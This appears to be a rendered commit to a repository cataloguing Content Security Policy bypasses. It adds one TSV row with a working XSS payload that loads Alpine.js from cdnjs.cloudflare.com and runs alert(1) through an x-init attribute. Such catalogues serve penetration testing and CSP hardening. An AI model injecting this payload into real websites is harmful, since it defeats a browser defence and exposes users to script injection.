

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
cdnjs.cloudflare.com alpine bypass

```diff
--- a/data.tsv
+++ b/data.tsv
+row 34: cdnjs.cloudflare.com | <script src="https://cdnjs.cloudflare.com/ajax/libs/alpinejs/3.10.5/cdn.min.js"></script><div x-init="alert(1)">
```
